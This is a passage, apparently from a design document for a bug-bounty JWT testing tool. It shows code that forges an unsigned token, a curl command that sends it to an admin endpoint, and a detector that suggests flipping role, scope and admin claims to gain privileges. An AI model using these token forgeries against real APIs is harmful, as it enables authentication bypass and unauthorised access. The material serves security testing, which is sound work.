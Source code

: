 ```
│         json.dumps(data).encode()                                │
│     ).decode().rstrip('=')                                       │
│                                                                   │
│ forged_token = f"{base64url_encode(header)}." \                 │
│                f"{base64url_encode(payload)}."                   │
│                                                                   │
│ print(forged_token)                                              │
│                                                                   │
│ Test with:                                                       │
│                                                                   │
│    curl -H "Authorization: Bearer FORGED_TOKEN" \                │
│      "https://api.example.com/api/admin/users"                   │
│                                                                   │
│ If this works, you have COMPLETE AUTHENTICATION BYPASS.          │
│                                                                   │
│ Bug Bounty Value: This is typically $5,000-$20,000+              │
│                                                                   │
│ [Generate exploit script] [Copy token] [Export evidence]         │
└─────────────────────────────────────────────────────────────────┘
```

#### Pattern 2B: Sensitive Claims in JWT

```javascript
function detectSensitiveJWTClaims(tokenAnalysis) {
  const payload = tokenAnalysis.payload;
  const sensitiveFields = [];

  // Authorization-related claims
  if (payload.role || payload.roles) {
    sensitiveFields.push({
      field: payload.role ? 'role' : 'roles',
      value: payload.role || payload.roles,
      type: 'authorization',
      risk: 'Role manipulation for privilege escalation',
      testSuggestion: 'Try changing role to "admin", "superuser", or "root"'
    });
  }

  if (payload.permissions || payload.scopes || payload.scope) {
    sensitiveFields.push({
      field: payload.permissions ? 'permissions' : (payload.scopes ? 'scopes' : 'scope'),
      value: payload.permissions || payload.scopes || payload.scope,
      type: 'authorization',
      risk: 'Permission manipulation to access restricted resources',
      testSuggestion: 'Try adding "admin", "write", or "*" to permissions'
    });
  }

  if (payload.is_admin || payload.isAdmin || payload.admin) {
    sensitiveFields.push({
      field: 'admin flag',
      value: payload.is_admin || payload.isAdmin || payload.admin,
      type: 'authorization',
      risk: 'Boolean flag flip for instant privilege escalation',
      testSuggestion: 'Try changing false to true'
    });
  }

  // Sensitive personal data (shouldn't be in JWT)
  if (payload.password || payload.password_hash) {
    sensitiveFields.push({
      field: 'password',
      value: '[REDACTED]',
```